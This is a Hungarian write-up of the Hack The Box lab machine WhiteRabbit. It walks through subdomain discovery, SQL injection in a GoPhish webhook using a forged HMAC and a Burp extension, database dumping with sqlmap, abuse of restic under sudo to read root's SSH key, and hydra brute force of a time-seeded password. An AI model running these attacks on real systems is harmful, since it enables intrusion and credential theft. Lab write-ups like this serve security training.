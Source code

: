 **Platform:** Linux  
**IP:** 10.10.11.XX 
**Difficulty:** Insane  
**Author:** NoSec  


## Felderítés / Recon

```bash
22/tcp   open  ssh           OpenSSH 8.9p1 (protocol 2.0)
80/tcp   open  http          Caddy httpd
2222/tcp open  ssh           OpenSSH 8.9p1 (protocol 2.0)
```
Szolgáltatás infó: OS valószínűleg Linux-alapú, a Caddy webszerver fut.

---

## Előkészítés

- **Host fájl szerkesztése**
    ```bash
    sudo nano /etc/hosts
    ```
    ```
    10.10.11.XX     whiterabbit.htb status.whiterabbit.htb
    
- **Clock skew (időszinkron, ha szükséges)**
```bash
sudo rdate -n whiterabbit.htb
```

---

## Alközpontok és Web Feltárás

**Alközpontok felfedezése:**

A whiterabbit.htb alatti /status/ végpontot brute-force-olva (pl. gobuster,ffuf) megtaláltam a status.whiterabbit.htb-t, ami Uptime Kumát futtat. Egy kis kutakodás ([redacted URL] után a /status/temp/ oldalon új alközpontokat találtam:

- GoPhish: ddb0<link>.whiterabbit.htb
- Wikijs: a668<link>.whiterabbit.htb

-**Webhookok nyomozása:**

A Wikijs endpoint ([redacted URL] egy webhookot mutatott az 28e<link>.whiterabbit.htb felé, ami gyanúsan nézett ki.

-**Kihasználás / Exploitation**

SQLi a Webhookban

A webhook egy x-gophish-signature HMAC aláírást követelt. A titkos kulcsot innen szedtem ki:

Forrás: [redacted URL]
Kulcs: 3CWV<key>

Az HMAC-ot a CyberChef-fel generáltam ([redacted URL] és egy teszt payloaddal SQLi-t próbáltam:
```bash
{"campaign_id":2,"email":"test \$\"","message":"Clicked Link"}
```
Láttam egy MySQL hibát, szóval sebezhető!

-**BurpSuite Automatizálás**

Manuálisan lassú volt, ezért egy Burp kiterjesztést intéztem, ami automatikusan hozzáadja az HMAC fejlécet:

```bash
from burp import IBurpExtender, ISessionHandlingAction
from java.io import PrintWriter
from datetime import datetime
import hashlib, hmac

class BurpExtender(IBurpExtender, ISessionHandlingAction):
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("HMAC Header")
        PrintWriter(callbacks.getStdout(), True).println("HMAC Header OK")
        callbacks.registerSessionHandlingAction(self)
        PrintWriter(callbacks.getStdout(), True).println("Session started")
        return

    def getActionName(self):
        return "HMAC Header"

    def performAction(self, currentRequest, macroItems):
        Secret = "3CWV<redacted>"
        stdout = PrintWriter(self._callbacks.getStdout(), True)
        requestInfo = self._helpers.analyzeRequest(currentRequest)
        BodyBytes = currentRequest.getRequest()[requestInfo.getBodyOffset():]
        BodyStr = self._helpers.bytesToString(BodyBytes)
        _hmac = hmac.new(Secret, BodyStr, digestmod=hashlib.sha256).hexdigest()
        headers = requestInfo.getHeaders()
        headers.add("x-gophish-signature: sha256=" + _hmac)
        message = self._helpers.buildHttpMessage(headers, BodyStr)
        currentRequest.setRequest(message)
        return
```
Telepítve a Burp Custom Extensions-ben (https://www.pentestpartners.com/security-blog/burp-hmac-header-extensions-a-how-to/)

-**SQLmap Támadás**

Az SQLi-t sqlmap-mel automatizáltam:

```bash
sqlmap -u [redacted URL] POST --data '{"campaign_id":2,"email":"test@mail.com","message":"Clicked Link"}' -p email --proxy [redacted URL] --batch --dump --Level=5 --risk=3 -D temp -T command_log --flush
```

| ID  | Dátum               | Parancs                                                |
|-----|---------------------|---------------------------------------------------------|
| 103 | 2024-08-30 14:40:41 | `uname -a`                                             |
| 110 | 2024-08-30 15:16:05 | `restic init --repo rest:[redacted URL] |

-**Jogosultság Növelés / Privilege Escalation**

-Restic Kihasználása

Egy Restic tárolót találtam [redacted URL] jelszóval: ygcsv<redacted> Ezzel mentést csináltam a /root/-ról:

```bash
export RESTIC_PASSWORD=ygcsv<pass>
export RESTIC_REPOSITORY=rest:[redacted URL]
sudo /usr/bin/restic init -r .
sudo restic -r . backup /root/
sudo restic -r . dump latest /root/morpheus
```
Kinyertem egy SSH kulcsot a morpheus-hoz, így be tudtam lépni:

```bash
ssh morpheus@whiterabbit.htb -p 22
```

```bash
morpheus@whiterabbit:/home/morpheus# ls
user.txt

```
User flag pipa! 🚀

-**Neo Jelszó Generálás**

A /opt/neo-password-generator/neopassword-generator binárist Ghidra-val néztem meg. A gettimeofday()-ot használja seedként:

 -Számítás: tv_sec * 1000 + tv_usec / 1000 
 -20 karakteres jelszót generál rand() % 62-vel.
 
Mivel a neo 2024-08-30 14:40:42-kor futtatta, a másodperceket tudom, de a mikromásodperceket bruteforce-olnom kellett (0-999). Egy Python szkriptetvhasználtam:

```python
from ctypes import CDLL
import datetime
libc = CDLL("libc.so.6")
seconds = datetime.datetime(2024, 8, 30, 14, 40, 42, tzinfo=datetime.timezone.utc).timestamp()
for i in range(0, 1000):
    # [Itt a rand() logika lenne, C-vel pontosabb]
```
Legeneráltam és jöhetett az SSH bruteforece.

```bash
python3 password_generator.py > passwords.txt
```

```bash
hydra -l neo -P passwords.txt ssh://whiterabbit.htb -t 20
```

Jelszó:
```nginx
WB<pass>
```

Miután beléptünk SSh-n már csak egy sudo -su parancsot kell használnunk, és kezünkben a root flag


```bash
root@whiterabbit:~# ls
root.txt
```

Jegyzetek & Magyarázat
Mit tanultam ebből a gépről?
Webhook és SQLi abuse: Az Uptime Kuma sebezhetőségei izgalmasak voltak, főleg az HMAC trükkökkel.
Restic kihasználás: Hát, ki gondolta, hogy egy backup tool ennyire fel tudja pörgetni a jogosultságokat?
Bináris analízis: A gettimeofday()-os jelszógenerálás bruteforce-olása igazi agytorna volt.
Automatizálás: A Burp kiterjesztés és sqlmap combo nagyon megkönnyítette az életem.

Hibák, csapdák, tanácsok
Időszinkron figyelj! Ha elcsúszik, az SSH vagy más lépések összeomlanak.
Brute-force türelem: A /status/temp/-re sokáig kerestem, jó lista kell!
Spoilermentes írás: Ne adj ki mindent, hadd élvezzék mások is a nyomozást.
Tesztelj mindent: Az HMAC kulcsot kétszer ellenőriztem, mielőtt sqlmap-et indítottam.

Összegzés
A WhiteRabbit egy menő gép, ami a webes kihasználástól a kreatív jogosultság-növelésig visz. Az Uptime Kuma, SQLi, Restic és a bináris analízis egy szuper mix, amit minden pentester kipróbálhat. User és root flag is megvan, szóval elégedett vagyok! 🚀

Ajánlom mindenkinek, aki szereti a kihívásokat és az AD-s gépek helyett valami mást akar!


